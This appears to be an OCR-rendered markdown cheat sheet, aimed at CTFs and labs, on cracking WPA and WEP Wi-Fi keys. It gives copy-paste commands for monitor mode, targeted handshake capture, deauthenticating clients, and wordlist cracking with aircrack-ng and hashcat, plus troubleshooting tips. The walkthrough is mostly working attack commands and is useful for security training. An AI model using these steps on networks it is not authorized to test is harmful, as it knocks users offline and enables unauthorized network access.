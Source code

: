 
## Combining with other tools (recommended modern flow)
- `hcxdumptool` + `hcxpcapngtool` for PMKID / modern capture -> `hashcat` for GPU cracking. Much faster than CPU wordlist cracking with aircrack-ng.
- `aircrack-ng` is good for quick lab cracking with CPU wordlists (rockyou) and WEP attacks.

Example: capture via airodump & force handshake, then crack with hashcat (after converting capture to hash format):
```bash
# capture handshake with airodump-ng (write to capture.cap)
# convert pcap to hashcat format using hcxpcapngtool (if pcapng)
hcxpcapngtool -o hash.txt capture.pcapng
# crack with hashcat GPU (mode 22000/2500/16800 depends on format)
hashcat -m 22000 hash.txt rockyou.txt
```

---

## Practical step‑by‑step (WPA handshake capture + crack) — copy/paste for CTFs
1. Put interface in monitor mode:
```bash
sudo airmon-ng start wlan0
# interface -> wlan0mon
```
2. Run targeted capture for AP (open new terminal):
```bash
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write /tmp/handshake wlan0mon
```
3. In another terminal, deauth a client to force handshake:
```bash
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF wlan0mon
```
4. Watch airodump-ng for "WPA handshake". Once captured, stop capture (Ctrl+C).
5. Crack with wordlist:
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF /tmp/handshake-01.cap
```

---

## Troubleshooting & common gotchas
- **No handshake found:** ensure capture contains EAPOL packets; check with `aircrack-ng -J` or open in Wireshark. Deauth may need to target a specific client (`-c`). Some clients/do not reconnect on deauth or use PMK caching.
- **AP uses PMF / 802.11w:** deauth may be protected; deauth attacks may fail — try PMKID/other techniques or social engineering. 802.11w complicates deauth-based handshake capture.
- **Too few IVs for WEP:** use ARP replay attack to generate traffic.
- **Driver/adapter limitations:** not all Wi‑Fi adapters support injection/monitor mode. Use compatible chipsets (Atheros, Ralink, Realtek with patched drivers).

---
